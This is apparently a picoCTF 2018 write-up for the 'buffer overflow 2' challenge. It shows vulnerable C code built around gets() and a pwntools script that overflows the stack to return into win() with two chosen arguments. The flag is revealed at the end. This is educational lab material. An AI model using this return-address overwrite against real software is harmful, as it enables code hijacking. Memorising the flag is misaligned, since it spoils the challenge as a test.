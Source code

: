 ![title](images/title.png)

![hint](images/hint.png)

Lets start by breaking down the source

## vuln.c

We can estimate the buffersize needed to overflow (100) and also see a win() function that prints a flag. Important thing to note here is the win function requires 2 arguments (0xdeadbeef and 0xdeadc0de)
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}
```

Another vulnerable gets() function. The import thing to note here is unlike the task shellcode the char buf is set within the vuln function which should make it easy to overflow and control EIP
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Strategy

1. Find the buffer amount required to control EIP using pwn cyclic
2. Find the address of the win function using pwntools ELF library
3. Build a payload consisting of buffer + win() + win()'s_return_address(we'll use main) + arg1(0xdeadbeef) + arg2(0xdeadc0de)
4. Connect to the server and send the payload

## apple.py

```python
#!/usr/bin/env python


from pwn import *
import sys

argc = len(sys.argv)

#obtain offset
'''
pwn cyclic 140 | strace ./vuln
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x62616164} ---
+++ killed by SIGSEGV +++
Segmentation fault
pwn cyclic -l 0x62616164
112
'''
#set offset, arg1, and arg2 variables
offset = 112
arg1 = 0xdeadbeef
arg2 = 0xdeadc0de

#get addr of win and main
e = ELF('./vuln')
win = e.symbols['win']
main = e.symbols['main']

if argc > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa')
else:
	p = process('./vuln')


#build payload
payload = ''
payload+= 'A'*offset	#112 A's to fill the buffer
payload+= p32(win)		#returns to win function instead of main
payload+= p32(main)		#the return pointer for the win function. It doesnt matter so i just put some ascii
payload+= p32(arg1)		#0xdeadbeef
payload+= p32(arg2)		#0xdeadc0de

#send and interact with shell
p.sendline(payload)
p.interactive()
```

<details>
	<summary>Flag</summary>

picoCTF{addr3ss3s_ar3_3asy1b78b0d8}
</details>